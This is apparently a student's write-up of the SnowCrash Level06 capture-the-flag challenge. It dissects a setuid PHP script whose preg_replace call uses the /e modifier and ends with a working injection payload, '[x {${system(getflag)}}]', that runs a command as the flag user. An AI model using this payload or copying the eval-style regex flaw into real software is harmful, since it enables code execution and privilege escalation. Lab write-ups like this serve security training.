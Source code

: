 # Level06

## Research

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ ./level06.php
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
```bash
level06@SnowCrash:~$ strings level06
[...]
/usr/bin/php
/home/user/level06/level06.php
[...]
```
Maybe `level06` executes `level06.php`.

If we `cat level06.php` the file is hard to read, so I re-wrote it and study it: 
```php
#!/usr/bin/php
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m); 
        $m = preg_replace("/@/", " y", $m); 
        return $m; 
    }
    // manipule argv 1
    function x($y, $z) {
        // read file y and put content into string a
        $a = file_get_contents($y); 
        // first / indicates start of regular expression
        // second / indicates end of it, and start of expression flags
        // expression flag here: e , known for security problem
        // The e modifier is a PHP-specific modifier that triggers PHP 
        // to run the resulting string as PHP code.
        // the '/e' modifier actually allows us to evaluate the second argument as a PHP expression.
        // calls the function eval()
        // programms call function y() here thanks to modifier e
        // () Capturing group. Groups multiply tokens together and creates a capture group
        // for extracting a substring or using a backreference
        // \1 - it means the first capturing group in the matched expression. 
        // \n would be the nth capturing group. (Note that \0 would be whole match). 
        // In many engines, the upperlimit for n is 9, but some support up to 99 as well.
        // When used in regex like (a|b)\1, it means that after a or b, the next character 
        // should be the first captured group, which is a or b so the regex here would 
        // match aa or bb.
        // \[ matches a [ character
        // x matches a x character and a space one
        // . matches any character except line breaks
        // * matches 0 or more of the preceding token
        // \] matches a ] character

        // \[x (.*)\] first group --> [x ] or [x coucou] matches
        // .* second group, given as parameter to function y --> [x @.coucou] changes @ and . in y function
        // [x@ @.coucou] don't match first group, so it doesn't work
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        // replace [ by (
        $a = preg_replace("/\[/", "(", $a);
        // replace ] by )
        $a = preg_replace("/\]/", ")", $a);
        return $a; 
    }
    // y = argv 1
    // z = argv 2
    $r = x($argv[1], $argv[2]); 
    print $r;
?>
```
```bash
level06@SnowCrash:~$ ./level06 hello
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```
We seems to need a file as an argument.

Theorical steps:
- Create a file with a syntax matching the regex
- So a part of the string (the second group) can be sent to function y
- In function y the string will be transformed (or not) then returned
- The returned string will be executed by the e modifier
https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/ </br>
https://www.php.net/manual/en/language.types.string.php </br>

In reality:
Struggled **a lot** to find good syntax, tried: </br>
`echo '[x $(getflag)]' > /tmp/flag && ./level06 /tmp/flag` </br>
`echo '[x ${system(getflag)}]' > /tmp/flag && ./level06 /tmp/flag` </br>
and a lot of variants of it...

## Solution 

Let's find the good syntax:</br>
https://www.php.net/manual/fr/language.types.string.php</br>
https://www.voidsecurity.in/2012/12/exploit-exercise-php-pregreplace.html</br>
https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex 

Finally:
```bash
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX in /home/user/level06/level06.php(4) : regexp code on line 1

```


